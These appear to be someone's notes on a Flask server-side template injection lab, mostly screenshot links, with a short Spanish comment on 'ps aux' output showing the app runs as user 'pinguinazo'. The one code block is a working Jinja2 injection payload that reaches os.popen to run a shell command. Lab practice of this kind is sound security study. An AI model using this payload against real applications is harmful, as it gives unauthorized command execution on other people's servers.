 ![](Pasted%20image%2020250228114121.png)
![](Pasted%20image%2020250228114606.png)

![](Pasted%20image%2020250228114822.png)

![](Pasted%20image%2020250228115236.png)
![](Pasted%20image%2020250228115744.png)

![](Pasted%20image%2020250228115846.png)

![](Pasted%20image%2020250228122517.png)

![](Pasted%20image%2020250228122546.png)

![](Pasted%20image%2020250228123633.png)

![](Pasted%20image%2020250228122639.png)

![](Pasted%20image%2020250228124134.png)

![](Pasted%20image%2020250228124206.png)

``` bash
{{request.application.__globals__.__builtins__.__import__('os').popen('echo whoami | bash').read()}}
```

![](Pasted%20image%2020250228124241.png)

![](Pasted%20image%2020250228124404.png)

![](Pasted%20image%2020250228124905.png)

![](Pasted%20image%2020250228125434.png)

![](Pasted%20image%2020250228125509.png)

![](Pasted%20image%2020250228125641.png)

![](Pasted%20image%2020250228130334.png)

![](Pasted%20image%2020250228130717.png)

![](Pasted%20image%2020250228130743.png)

![](Pasted%20image%2020250228130828.png)

![](Pasted%20image%2020250228131112.png)

![](Pasted%20image%2020250228131145.png)

![](Pasted%20image%2020250228132445.png)

![](Pasted%20image%2020250228133123.png)

![](Pasted%20image%2020250228135757.png)
Viendo la salida de tu comando `ps aux | grep app.py`, parece que la aplicación Flask está siendo ejecutada por el usuario `pinguinazo` con el siguiente comando:

`python3 /home/pinguinazo/flask_ssti_lab/app.py`

Además, observamos que el comando está siendo ejecutado a través de un `su` (Switch User), lo que significa que la aplicación se ejecuta como un usuario específico en lugar de como root.







